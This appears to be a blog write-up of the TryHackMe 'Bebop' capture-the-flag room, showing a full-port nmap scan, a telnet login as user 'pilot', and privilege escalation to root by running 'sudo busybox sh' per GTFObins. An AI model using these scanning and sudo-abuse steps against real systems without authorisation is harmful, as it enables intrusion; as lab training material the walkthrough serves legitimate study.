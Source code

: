 ```yaml
---
layout: post
title:  "Tryhackme: Bebop"
date:   2021-01-14 19:57:56 +0200
categories: tryhackme
---
```


## Nmap Scan ##

We start by running our usual nmap scan
```sudo nmap -sSCV -T5 10.10.112.36 -p- -oN=nmapScan -vv```

Then we get the output:
```
Nmap scan report for 10.10.112.36
Host is up, received echo-reply ttl 63 (0.055s latency).
Scanned at 2021-01-20 14:40:34 EST for 164s
Not shown: 38696 filtered ports, 26837 closed ports
Reason: 38696 no-responses and 26837 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.5 (FreeBSD 20170903; protocol 2.0)
| ssh-hostkey: 
|   2048 5b:e6:85:66:d8:dd:04:f0:71:7a:81:3c:58:ad:0b:b9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDHwR9KKb3OSPvSUHz9yw6aPdhsdjjZx9CvUN60u5d/OQCXcYo+4HVppBUIv31LQyJjkx2xexQTA/hZtsxDFDm+hmkh1MF7lhnsKLhfPHt/7fcUzvkMuqBAAnuaQuBtl6Uamqi+1KW018dwf0tGh7PoKgTsx0gC+Bic+yY/I2fxvqkGTOlGZEiCEXEbe/eTGdruo0w2vVH1e4VoxAoL2wPBSchR8R53j6sbED8+QbahdhsdEGBGrQ481disFjBMLy+DbNYMviqIvMcRKv11fut843iuJssl0P4/h0ewOgDBGS3bcnatPr7o8YNjf05rHJ0lcuhCZBbuzzvzF+26EMef
|   256 d5:4e:18:45:ba:d4:75:2d:55:2f:fe:c9:1c:db:ce:cb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPlqfDN7Lwi9D/1vME40xU+tiXw3ubwrqePXtNytyFeJAb4CA2qW+cuPq67LcRT7haCOoX+rDENgL+sFi3eg1Lw=
|   256 96:fc:cc:3e:69:00:79:85:14:2a:e4:5f:0d:35:08:d4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ6YQS6APysyb8rYAxb4jbQdlorQdNW/urVO4RPXQoPe
23/tcp open  telnet  syn-ack ttl 63 BSD-derived telnetd
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 20 14:43:18 2021 -- 1 IP address (1 host up) scanned in 163.87 seconds
```

## Setting Foothold ###

We can see that there is port 23 open for telnet, which is well known to be an insecure protocol. We will login as ```pilot``` using telnet.

``` telnet 10.10.112.36```

Here we are located in the pilot's use home directory where the user flag is also located so we can just:
``` cat user.txt```

## Privilege Escalation ##

First let's check if we can run any binary as ```root```:
```sudo -l```

We will see that we are allowed to run the binary ```busybox``` as root. Looking it up on ```GTFObins``` we are met with an execution method that would allow us to run a shell with root privileges.

```sudo busybox sh```
```
# whoami
root
# cat /root/root.txt
```

